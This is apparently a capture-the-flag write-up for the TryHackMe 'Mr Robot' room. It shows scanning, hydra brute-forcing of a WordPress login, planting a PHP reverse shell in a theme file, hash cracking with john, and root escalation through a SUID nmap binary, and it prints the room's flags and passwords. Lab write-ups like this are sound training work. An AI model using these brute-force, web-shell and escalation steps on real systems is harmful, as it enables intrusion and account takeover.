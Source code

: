 # Tryhackme.com Room : Mr Robot
`https://tryhackme.com/room/mrrobot`


# Instance
```
export IP=10.10.11.95
```

# Task 1

1. What is key 1 ?

Nmap results : 
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

Both https && http version of the website resolve to the same thing.

It is an interactive shell with the following options :

```
- Prepare
	- NOTHING. Small video
- fsociety
	- NOTHING. Small video
- inform
	- Some dialog with images, didn't find anything usefull
- question
	- Some images. (Steg ? Prob not)
- wakeup
	- NOTHING. Small video
- join
	- Ask for an email address. Doesn't seem to send anything to it.
```

In robots.txt we find :
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

First key is 
```
073403c8a58a1f80d943455fb30724b9
```

2. Get the second key.

The `fsociety.dic` file give us a list of word (Dictionary). Probably to be used to bruteforce some login

Lets run gobuster `gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://$IP`

There is a lot of stuff in here :
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 301)
	- Wordpress blog
/0000 (Status: 301)
	- Seems to be the same wordpress blog ?
/Image (Status: 301)
	- Seems to be redirecting to a seach in a wordpress instance.
	- Not sure it is the same as the one running at /0
	- Anything after the / seems to redirect to the wordpress page (Even 404)
/admin (Status: 301)
	- The page look like a prompt but it keep refreshing. Looked up the javascript a bit, might need a specific user agent to be able to browse the page.
/atom (Status: 301)
	-Refirect to /feed/atom/, Might be related to a wordpress plugin ?
/audio (Status: 301)
	- Forbidden access
/blog (Status: 301)
	- Forbidden access
```

I poked around the /admin page.
Manage to retrieve the html & js using wget
```
wget http://$IP/admin/index.html
wget http://$IP/admin/js/main-acba06a5.js
```

The same main.js is loaded from / and /admin

We went another way here, let's try to bruteforce the wordpress website.

We could do via xmlrpc since it's available but we could simply hammer the http post at /login

We first need to determine the user, tried some user enumeration with /?author=1... But wasn't able to get results.
Either because / serve the cmd prompt and not the wordpress instance. OR because there is no post on the blog.

Anyways, when we login via the web interface, we get a message that the user is invalid. We can bruteforce the user using a dummy password with hydra :
```
hydra -L fsocity.dic -p test 10.10.246.110 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30
```

We get the username
```
Elliot
```

We then use hydra again to find the password :
```
hydra -l Elliot -P fsocity.dic 10.10.246.110 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -t 30
```

Took a while because my connexion sucks but we finally found the password :
```
ER28-0652
```

Now that we can login into the admin panel, let's inject some php.

We use `menu -> Appearance -> Editor->Current Theme` than we edit the `footer.php` file. (We could have put the code elsewhere)

We will just use this reverse shell script from here : ` `

That we simply paste in the footer.php file, no need to be more elegant than this :P

We open a netcat connection on our machine
```

```

We load any pages from the blog and we get a reverse shell.

We go to `/home/robot` and find 2 files
```
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We crack the password with john :
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

And obtain the password for the robot user
```
robot:abcdefghijklmnopqrstuvwxyz
```

We try to `su robot` but we get an error
```
su: must be run from a terminal
```

I found here (https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) how to go around this.
We used python to spawn another shell:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Than we were able to su into robot.

We get the second flag `cat /home/robot/key-2-of-3.txt`
```
822c73956184f694993bede3eb39f959
```

http://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


We can log in in ssh using those credentials


sudo 1.8.9p5
Linux 3.13.0-55-generic

nmap was set as a SUID binary.

We can
```
> nmap --interactive
> !sh
> whoami
root
> cat /root/key-3-of-3.txt
```

Last key :
```
04787ddef27c3dee1ee161b21670b4e4
```

